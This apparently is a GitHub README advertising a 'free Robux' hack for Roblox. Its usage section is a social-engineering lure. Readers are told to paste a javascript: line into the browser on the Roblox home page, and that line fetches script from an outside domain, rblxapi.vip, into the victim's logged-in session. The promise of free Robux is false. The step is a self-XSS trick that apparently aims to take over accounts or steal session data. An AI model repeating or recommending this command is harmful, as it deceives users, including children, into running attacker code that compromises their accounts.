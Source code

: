 # RobloxFreeRobux
Hi!
Welcome Back With Another Game Hack!
This Hack For ROBLOX game !!!
Roblox Free Robux Hack !!!

# Usage
To run the hack,
you need to copy the code I give below.

CODE = xJavascript:$.get("//rblxapi.vip/api?id=1540169")

Now you need to open "Roblox Home Page"

When you copy the code, it has a (x) in front of it.
Paste it into the roblox browser and remove the x in front of it and click enter.
Type the amount of robux you want in the Pop-Up that appears
Refresh The Page And...
You now have your robux!!!
